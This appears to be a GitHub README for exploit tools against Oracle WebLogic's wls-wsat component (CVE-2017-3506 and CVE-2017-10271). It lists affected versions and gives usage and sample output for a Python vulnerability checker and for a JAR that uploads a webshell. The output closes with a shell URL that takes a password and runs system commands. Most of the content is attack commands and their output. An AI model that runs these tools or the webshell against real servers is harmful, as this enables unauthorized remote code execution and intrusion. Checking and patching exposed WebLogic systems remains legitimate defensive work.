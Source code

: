 ## CVE-2017-3506_poc.py Weblogic wls-wsat
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py
> +--------------------------------------------------------+
> + USE: python cve-2017-3506_poc.py <url:port>            +
> + VER: 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1, 12.2.1.2  +
> + EXP: python cve-2017-3506_poc.py IP:PORT  			   +
> +--------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py IP:PORT
> [+] CVE-2017-3506 Vulnerability
> zhzy@debian:$ python cve-2017-3506_poc.py IP:PORT
> [-] No Vulnerability
> ```

## cve-2017-3506_webshell.jar Weblogic wls-wsat
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar 
> [*]              Oracle : WebLogic wls-wsat RCE Exp
> [*]              CVE ID : CVE-2017-3506 & CVE-2017-10271
> [*]  Vulnerability info : https://secfree.com/article-635.html
> [*]              Author : Bearcat@secfree.com
> [*]  Vulnerability page ：wls-wsat/CoordinatorPortType & wls-wsat/CoordinatorPortType11 
> [*]               Usage ：java -jar WebLogic_Wls-Wsat_RCE_Exp.jar http://xxx.xxx.xxx.xxx:7001 test.jsp
> [*] Vulnerability patch : http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar http://IP:PORT > shell.jsp
> [*] Starting exploit...
> [*] Sending payloads...
> [*] Payloads sent...
> [*] Opening shell...
> [*] pwned! Go ahead...
> 
> [+] http://IP:PORT/bea_wls_internal/shell.jsp?password=secfree&command=whoami
> ```
